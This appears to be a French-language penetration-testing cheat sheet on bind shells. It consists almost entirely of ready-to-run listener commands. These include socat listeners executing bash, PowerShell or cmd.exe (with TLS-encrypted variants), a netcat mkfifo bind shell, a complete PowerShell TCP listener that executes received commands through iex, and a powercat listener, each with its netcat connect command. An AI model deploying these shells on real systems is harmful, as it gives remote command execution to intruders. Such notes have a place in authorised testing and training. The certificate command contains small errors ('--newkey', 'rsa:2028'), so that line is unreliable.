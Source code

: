 Se produisent lorsque le code exécuté sur la cible est utilisé pour démarrer un écouteur attaché à un shell directement sur la cible.

> Cela présente l'avantage de ne nécessiter aucune configuration sur votre propre réseau, mais peut être empêché par des pare-feu protégeant la cible.

# socat
#linux #windows 

```sh
socat TCP-L:<PORT> EXEC:"/bin/bash"
```

```sh
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Connecter à l'auditeur en attente:

```
socat TCP:<TARGET-IP>:<PORT> -
```

###### Shell cryptées

Générer un certificat afin d'utiliser des shells cryptés

```sh
openssl req --newkey rsa:2028 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Fusionner les deux fichiers en un seul 

```sh
cat shell.key shell.crt > shell.pem
```

Ecouteur:

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:"/bin/bash"
```

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:cmd.exe,pipes
```

Connecter à l'auditeur en attente:

```sh
socat OPENSSL:<TARGET-IP>:<PORT>,verify=0 -
```

### Shell communes
#linux 

```sh
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

```sh
nc -nv <TARGET-IP> <PORT>
```

# powershell 
#windows 

Executer ceci dans powershell

```c
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0', '443');
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
$listener.Stop();
```

```sh
nc -nv <TARGET-IP> 443
```

# powercat
C'est la version powershell de netcat

```c
. .\powercat.ps1
powercat -l -p 9001 -ep -rep -v
```

```sh
nc -nv <TARGET-IP> 9001
```